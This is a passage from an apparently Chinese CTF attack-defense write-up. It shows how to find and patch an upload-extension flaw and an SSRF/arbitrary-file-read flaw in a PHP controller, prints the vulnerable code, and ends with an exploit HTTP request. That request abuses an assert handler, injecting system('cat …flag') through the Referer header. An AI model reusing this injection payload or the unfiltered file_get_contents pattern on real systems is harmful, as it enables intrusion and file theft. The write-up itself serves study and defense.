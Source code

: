 这里可以简单的过滤<span spellcheck="false"><code>$safeName</code>中是否包含<span spellcheck="false"><code>'php'</code>等可作为脚本运行的文件扩展名字符串，发现问题直接返回错误即可。

### 服务端请求伪造 

可以通过grep或find等命令搜索相关关键字（如file_get_content, curl）等，来快速定位相关位置，随后对源码进行审查。但由于这类函数用途很多，因此审计难度也相对较大。建议从业务逻辑入手对相关代码进行审计。由于这类问题会影响程序运行逻辑，因此需要选手理解题意，根据题目的业务逻辑修复代码或添加防御措施。

在本题中，此漏洞并不存在前端调用，因此只能对代码进行审计。可以发现在<span spellcheck="false"><code>/resolve_file</code>请求对应的处理函数中存在此类情况。

<pre class="lang:default decode:true"># 1. app/controllers/PostsController.php
public function resolveImage()
{
    $resp = [
        'success' =&gt; false,
        'msg' =&gt; 'Failed!',
        'file_path' =&gt; ''
    ];

    $data = Input::only('resolve_file');

    $content = @file_get_contents($data['resolve_file']);
    if ($content)
    {
        $extension       = 'png';
        $folderName      = '/uploads/images/' . date("Ym", time()) .'/'.date("d", time()) .'/'. Auth::user()-&gt;id;
        $destinationPath = public_path() . $folderName;
        $safeName        = str_random(10).'.'.$extension;
        @mkdir($destinationPath, 0755, true);
        @file_put_contents($destinationPath .'/'. $safeName, $content);
        $resp['file_path'] = $folderName .'/'. $safeName;
        $resp['msg'] = "Succeeded!";
        $resp['success'] = true;
    }
    return $resp;
}</pre>

可以发现这里<span spellcheck="false"><code>file_get_contents</code>直接传入了请求参数，而未对其做过滤，因此可能导致任意文件读取。这里可以通过检查<span spellcheck="false"><code>$data['resolve_file']</code>的开头是否为<span spellcheck="false"><code>'http'</code>并且对<span spellcheck="false"><code>'localhost'</code>, <span spellcheck="false"><code>'127.*.*.*'</code>等相关的内网域名、IP等进行过滤。

## 0x02 漏洞利用方式 

### 1. index 

<pre class="lang:default decode:true">GET http://localhost:21000/?method=assert HTTP/1.1
Host: localhost:21000
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
Referer: system('cat /home/web/flag/flag')</pre>
